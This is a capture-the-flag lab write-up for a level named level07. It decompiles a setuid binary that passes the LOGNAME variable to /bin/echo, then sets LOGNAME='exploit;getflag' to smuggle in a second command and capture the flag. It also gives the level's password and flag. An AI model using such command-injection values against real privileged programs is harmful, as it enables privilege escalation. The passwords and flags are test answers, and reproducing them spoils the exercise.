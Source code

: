 # level07

## Vulnerability: Environnement variable trickery leading to code injection

level07's password: `wiok45aaoguiboiki2tuin6ub`

1. examinate existing files and permissions

```shell
ls -la
```

shows that the level07 executable belongs to flag07 group, privilege escalation should be possible

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```shell
scp -P 4242 level07@<host>:level07 .
retdecomp level07
```

shows `asprintf(&buffer, "/bin/echo %s ", getenv("LOGNAME"));` which permits arbitrary code execution

4. tweak the environment variables and pwn the flag

```shell
LOGNAME='exploit;getflag'
./level07
```

gives flag: `fiumuikeil55xe9cu4dood66h`
